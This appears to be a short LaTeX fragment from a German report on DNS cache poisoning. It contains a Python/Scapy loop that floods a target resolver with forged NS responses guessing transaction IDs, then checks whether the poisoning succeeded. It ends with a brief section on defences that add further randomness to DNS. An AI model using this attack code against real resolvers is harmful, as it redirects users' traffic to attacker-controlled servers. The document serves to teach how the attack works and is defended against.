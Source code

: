\documentclass[10pt,a4paper]{article}
\begin{document}
\begin{center}
\begin{lstlisting}
counter = 0
while True:
    target_domain = "www" + str(counter) + target_domain_base
    counter = (counter + 1) % (2 ** 16)

    packet_list = [initial_request(target_domain, target_dns_ip, target_dns_port_in)]

    response_amount = 50
    r = random.randint(0, (2 ** 16) - response_amount + 1)
    for i in range(r, r + response_amount):
        packet_list.append(
            forged_ns_response(i, target_domain, target_dns_ip, attacker_dns_ip, 
            		known_ns_domain, known_ns_ip, target_dns_port_out))

    p_txid_match = (1 / (2 ** 16)) * response_amount * counter * 100
    print("Iteration: {}, possible cache poisoning: {:4.2f}%".format(counter, p_txid_match))
    print("Sending packets from {} with id in interval [{}, {}] to {}"
    	.format(known_ns_ip, r, r + response_amount, target_domain))

    sendpfast(packet_list, pps=100000, iface="eth1", verbose=0)

    dns_response = sr1(IP(dst=target_dns_ip) / UDP(dport=53) / DNS(rd=1, 
    	qd=DNSQR(qname=target_domain)), verbose=0)

    try:
        if dns_response[DNS].an.rdata == expected_ip:
            print("Successfully poisoned the zone of {}".format(target_domain_base))
            break
    except:
        print("Poisoning failed")
    break
\end{lstlisting}
\end{center}

\subsection{Versuchsreihen und Vorgehensweise}

\subsection{Schutz gegen den Angriff}
Das eigentliche Problem des Angriffslies sich nicht beheben ohne die Kompatibilität zum bisherigen DNS Protokoll zu verlieren, daher wurden weitere Zufallsquellen neben der bestehenden ID-Randomization eingerichtet.
\end{document}
